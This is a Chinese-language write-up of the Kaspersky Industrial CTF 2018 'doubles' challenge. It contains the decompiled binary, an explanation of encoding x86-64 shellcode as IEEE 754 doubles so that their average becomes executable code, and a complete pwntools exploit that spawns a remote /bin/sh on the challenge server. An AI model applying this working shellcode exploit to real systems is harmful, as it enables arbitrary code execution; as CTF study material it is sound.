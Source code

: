 Kaspersky Industrial CTF 2018 writeup - doubles
===

### 觀察
一如往常的起手式 F5 後，迅速發現這又是個有趣的 shellcode 練習題，把 code 整理一下
```cpp
void f()
{
  double *buf; 
  int v1; 
  unsigned int i; 
  double input_cnt; 
  double total; 

  alarm(0xAu);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  buf = (double *)mmap(0LL, 0x1000uLL, 7, 34, -1, 0LL);
  if ( !buf )
  {
    fwrite("something is wrong, tell admin\n", 0x1FuLL, 1uLL, stderr);
    _exit(1);
  }
  fwrite("n: ", 3uLL, 1uLL, stdout);
  v1 = __isoc99_scanf("%u", &input_cnt);
  _IO_getc(stdin);
  if ( v1 != 1 )
    _exit(2);
  if ( input_cnt < 7 )
  {
    if ( !input_cnt )
    {
      total = 0.0;
      input_cnt = 0.0;
      goto LABEL_10;
    }
  }
  else
  {
    input_cnt = 6;
  }
  total = 0.0;
  i = 0;
  for (int i = 0; i < input_cnt; i++) {
    scanf("%lf", &buf[i]);
    _IO_getc(stdin);
    total += buf[i];
  }
LABEL_10:
  buf[14] = -6.828527034440643e-229; // 0x909090909090C031 = xor eax, eax nop nop nop nop nop nop
  buf[15] = total / input_cnt;
  JUMPOUT(__CS__, buf + 14); // jmp &buf[14]
}
```
不難看出題目可以讓使用者輸入 n 個 double，其中 0 <= n < 7，將所有輸入的 double 取平均後放到 buf[15]，接著 `jmp &buf[14]` 執行預寫好的 shellcode 和剛剛的平均數... 

### 想法
這題一眼看上去似乎很難操作，最主要的困難是 -- 該怎麼控制輸入的 double 讓他們在被取平均後仍然是一段可以執行的 shellcode，畢竟浮點數常常會出現做完除法後不精確或是輸入時就出現誤差的情況發生，其次是要怎麼在 8 byte 內完成一個 shell。

第二個問題比較容易，做法是想辦法跳回前面輸入的 buffer 上就有最多 6*8 byte 可以使用，而第一個問題卡了我一個小時，直到我赫然發現我可以簡單的確保那些輸入的 double 不會在操作時壞掉，為此必須先了解 IEEE 754 的規範。

以下取自 wiki [IEEE 754](https://zh.wikipedia.org/wiki/IEEE_754)

![](https://i.imgur.com/Qq6La1b.png)

再來下面是從 IEEE 754 格式轉換成小數的方式

<img src="https://latex.codecogs.com/gif.latex?Value%20%3D%20sign%20%5Ctimes%202%5E%7Bexponent-1023%7D%20%5Ctimes%201.fraction" />

有一個很直覺的想法是，如果可以保證我們在操作 double 時就像是在操作 integer，那題目就會被轉換成一個小學數學問題，那要怎麼做呢?

我想到的方法是讓每個輸入的 double 的 exponent 位都是 1023+52 = 1075，因為這樣會使得 <img src="https://latex.codecogs.com/gif.latex?2%5E%7Bexponent-1023%7D%20%5Ctimes%201.fraction" /> 中小數點會被向右位移 52 次，也就是這樣做可以保證每個產出的 double 小數點下都為 0 (<img src="https://latex.codecogs.com/gif.latex?fraction" /> 只有 52 位長)。實作的方式就是設定每個 double 的最高位和第二高位依序為`\x43`跟`\x30`，這樣就可以開始 exploit 了。

### Exploitation

exploit 的方式是在輸入時寫入五個包含 shellcode 的 double，彼此之間利用 jmp 跳過 `\x30\x43`，接著用數學計算第六個 double 讓最後的平均值等於所需要的 shellcode 即可。

聽起來很容易，不過實際上限制不少，為了確保每個 double 都是以整數運算以及必要的 jmp 指令，再扣掉最後一個調整用的 double，可使用的 shellcode 空間只有 (8-2-2)*(6+1-1) = 24byte，同時每個指令的大小不能超過 4byte，不過就算限制如此嚴峻，我還是強擠了一個能用的 shellcode 出來XD 
(當然是各種嘗試失敗之後)
```python
#!/usr/bin/env python2
from pwn import *
import struct

r = remote('doubles.2018.ctf.kaspersky.com', 10001)

context.arch = 'amd64'

# \x30\x43 here is to make the exponent of double equal (1023 + 52)
# also, 52 is used to ensure every double equal to some integer

# adjust rsp to bss
sc1 = asm('mov sp, 0x601f') + '\xeb\x82' + '\x30\x43'


# read(0, rsp, 0x42) => (rax == 0x42) => xor ah, 0x01 => (rax == 0x142) => execveat(0, rsp, NULL, NULL, 0)
sc2 = asm('''
    shl rsp, 8
    jmp A
    nop
    nop
    A:
    push 0x42
    pop rdx
    nop
    jmp B
    nop
    nop
    B:
    mov rsi, rsp
    nop
    jmp C
    nop
    nop
    C:
    syscall
    xor edx, edx
    jmp D
    nop
    nop
    D:
    xor ah, 0x01
    syscall
    pop rax
    nop
    nop
''')

print repr(sc1)
print disasm(sc1)
print repr(sc2)
print disasm(sc2)

sc2 = sc2.replace('\x90\x90','\x30\x43')

total = 0.0
d = 0.0
ans = []

for i in range(len(sc2)/8):
    d = struct.unpack('d', sc2[i*8:(i+1)*8])[0]
    ans.append(format(d, '.5f'))
    total += d

# calc 6th double to adjust mean to sc1
d = struct.unpack('d', sc1)[0]
ans.append(format(d*6 - total, '.5f'))

r.sendlineafter('n: ', '6')
for s in ans:
    r.sendline(s)

r.send('/bin/sh'.ljust(0x42, '\x00'))
r.interactive()
```
